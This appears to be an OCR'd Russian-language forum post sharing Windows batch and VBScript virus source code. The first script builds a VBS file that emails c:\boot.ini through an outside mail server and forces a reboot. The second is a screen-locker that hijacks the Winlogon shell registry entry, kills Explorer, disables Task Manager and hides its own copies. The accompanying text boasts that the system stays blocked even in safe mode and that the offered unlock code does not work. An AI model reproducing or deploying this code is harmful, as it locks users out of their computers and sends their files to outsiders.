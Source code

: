 echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusing") = 2 >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpauthenticate") = 1 >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendusername") = "support" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/sendpassword") = "support" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserver") = "smtp.mail.ru" >> %temp%\temp.vbs
echo Flds.Item("http://schemas.microsoft.com/cdo/configuration/smtpserverport") = 25 >> %temp%\temp.vbs
echo Flds.Update >> %temp%\temp.vbs
echo iMsg.Configuration = iConf >> %temp%\temp.vbs
echo iMsg.To = strTo >> %temp%\temp.vbs
echo iMsg.From = strFrom >> %temp%\temp.vbs
echo iMsg.Subject = strSubject >> %temp%\temp.vbs
echo iMsg.TextBody = strBody >> %temp%\temp.vbs
echo iMsg.AddAttachment "c:\boot.ini" >> %temp%\temp.vbs
echo iMsg.Send >> %temp%\temp.vbs
echo End Function >> %temp%\temp.vbs
echo Set iMsg = Nothing >> %temp%\temp.vbs
echo Set iConf = Nothing >> %temp%\temp.vbs
echo Set Flds = Nothing >> %temp%\temp.vbs

echo s.run "shutdown -r -t 0 -c ""pcforumhack.ru"" -f",1 >> %temp%\temp.vbs
start %temp%\temp.vbs
start %temp%\temp1.vbs
start %temp%\temp2.vbs
[/SRC]
Вирус полностью блокирует систему при следующем запуске Windows.Даже в безопасном режиме, выключает диспетчер задач.Чтобы разблокировать компьютер можно введя код 200393!(Но он не разблокирует)
[SRC]
Echo_inactive_inactive off
CHCP 1251
cls
Set Yvaga=На вашем компьютере найден вирус.
Set pass=Пароль
Set pas=Введите пароль.
Set virus=Чтобы разблокировать ПК вам потребуется ввести пароль
Set dim=Выключаю вирус...
title Внимание!!!
CHCP 866
IF EXIST C:\windows\boot.bat (
goto ok )
cls
IF NOT EXIST C:\windows\boot.bat (
ECHO Windows Registry Editor Version 5.00 >> C:\0.reg
ECHO. >> C:\0.reg
ECHO [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >> C:\0.reg
ECHO. >> C:\0.reg
ECHO "Shell"="Explorer.exe, C:\\windows\\boot.bat " >> C:\0.reg
start/wait regedit -s C:\0.reg
del C:\0.reg
ECHO Echo_inactive_inactive off >>C:\windows\boot.bat
ECHO C:\WINDOWS\system32\taskkill.exe /f /im Explorer.exe >>C:\windows\boot.bat
ECHO reg add "HKCU\software\Microsoft\Windows\CurrentVersion\Policies\system" /v DisableTaskMgr /t REG_DWORD /d 1 /f >>C:\windows\boot.bat
ECHO start sys.bat >>C:\windows\boot.bat
attrib +r +a +s +h C:\windows\boot.bat
copy virus.bat c:\windows\sys.bat
attrib +r +a +s +h C:\windows\sys.bat
GOTO end)
:ok
cls